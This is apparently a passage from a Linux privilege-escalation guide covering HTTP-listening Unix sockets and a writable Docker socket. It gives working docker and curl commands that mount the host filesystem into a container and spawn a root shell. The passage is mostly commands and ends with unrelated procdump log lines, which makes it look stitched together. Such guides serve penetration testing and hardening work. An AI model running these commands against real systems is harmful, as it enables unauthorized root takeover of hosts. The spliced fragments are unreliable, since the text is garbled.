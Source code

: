 Exploitation example:

### HTTP sockets

Note that there may be some sockets listening for HTTP requests (I'm not talking about .socket files but the files acting as unix sockets). You can check this with:

```
curl --max-time 2 --unix-socket /pat/to/socket/files http:/index
```

If the socket responds with an HTTP request, then you can communicate with it and maybe exploit some vulnerability.

### Writable Docker Socket

The Docker socket, often found at `/var/run/docker.sock`, is a critical file that should be secured. By default, it's writable by the `root` user and members of the `docker` group. Possessing write access to this socket can lead to privilege escalation. Here's a breakdown of how this can be done and alternative methods if the Docker CLI isn't available.

#### Privilege Escalation with Docker CLI

If you have write access to the Docker socket, you can escalate privileges using the following commands:

```
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

These commands allow you to run a container with root-level access to the host's file system.

#### Using Docker API Directly

In cases where the Docker CLI isn't available, the Docker socket can still be manipulated using the Docker API and `curl` commands.

1. List Docker Images: Retrieve the list of available images.

```
curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
```

2. Create a Container: Send a request to create a container that mounts the host system's root directory.

```
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
```

Start the newly created container:

```
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714